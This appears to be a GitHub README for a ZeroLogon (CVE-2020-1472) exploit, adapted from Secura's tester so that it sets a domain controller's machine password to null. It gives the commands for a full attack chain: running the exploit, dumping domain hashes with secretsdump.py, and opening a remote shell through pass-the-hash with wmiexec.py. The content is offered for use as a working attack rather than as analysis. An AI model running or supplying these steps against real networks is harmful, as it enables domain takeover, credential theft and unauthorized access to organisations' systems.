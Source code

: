# ZeroLogon - Exploit and Example
Modified the test PoC from [Secura](https://github.com/SecuraBV/CVE-2020-1472/blob/master/zerologon_tester.py), CVE-2020-1472, in order to change the machine's password to null
Changing password on the machine uses [Microsoft's NetrServerPasswordSet2()](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-nrpc/14b020a8-0bcf-4af5-ab72-cc92bc6b1d81) function.  This exploit takes advantage of [Impacket's nrpc.py](https://github.com/SecureAuthCorp/impacket/blob/master/impacket/dcerpc/v5/nrpc.py) module to call NetrServerPasswordSet2(). 

## Run the exploit
`./zerologon_NULLPASS.py <dc-name> <dc-ip>`
![](https://i.imgur.com/R4Jui6O.png)

## Dump the hashes
`secretsdump.py -no-pass <dc-name>\$@<dc-ip>`
![](https://i.imgur.com/7GaZ9NY.png)

## Pass-The-Hash for shell access
`wmiexec.py -hashes <LM:NT> <username>@<ip>`
![](https://i.imgur.com/NCFVJ1o.png)
